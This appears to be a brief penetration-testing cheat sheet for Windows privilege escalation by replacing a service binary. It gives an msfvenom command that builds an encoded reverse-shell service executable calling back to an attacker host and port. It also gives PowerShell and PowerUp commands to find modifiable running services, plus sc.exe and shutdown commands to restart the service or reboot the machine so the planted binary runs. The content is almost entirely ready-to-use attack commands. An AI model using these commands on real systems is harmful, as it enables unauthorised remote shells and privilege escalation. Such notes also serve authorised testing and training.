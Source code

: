 
MSFVenom payload:
```
msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f exe-service -o winshell.exe LHOST=IP LPORT=PORT
```

Finding a service:
```
// Important: only works in "interactive situations". If it throws an error, it's not interactive. Then, use Winpeas.exe --> "Services Information", always works.
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
// OR
. .\PowerUp.ps1
Get-ModifiableServiceFile                  // might not always work
```

If there is a vulnerable service (overwritable binary), replace the binary.
To start/reboot the service:

```
sc.exe stop ServiceName
sc.exe start ServiceName
```
If this gets denied, check if reboot privileges are enabled:
```
whoami /priv
shutdown /r /t 0
```

